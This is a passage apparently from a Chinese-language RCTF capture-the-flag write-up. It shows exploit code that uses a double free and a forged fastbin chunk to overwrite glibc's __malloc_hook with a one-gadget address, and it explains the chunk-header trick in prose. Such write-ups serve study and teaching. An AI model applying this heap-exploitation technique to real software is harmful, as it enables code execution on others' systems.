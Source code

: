 <img src="/images/posts/rctf/1527012796711.png" >

```
free(1)
free(3)
#double free
hook = libc + l.symbols['__malloc_hook'] - 0x13
oneshot = libc + 0x4526a
#oneshot = libc + 0x4647c  #local
alloc(0x80, 'C' * 0x60 + p64(0) + p64(0x70) + p64(hook) + p64(0))#1
```
然后就是把malloc_hook来写入了，先把之前两个指针指向的地址(也就是我们前面构造的堆头)free掉，这样才能写东西进去，然后写malloc_hook地址进去的同时把0x71--->0x70这样才确保把这块地址分配之后把这个假的上一个空闲块的地址(malloc_hook的地址)写到fastbins里面去，以便下次分配的时候可以分配到malloc_hook的地址。
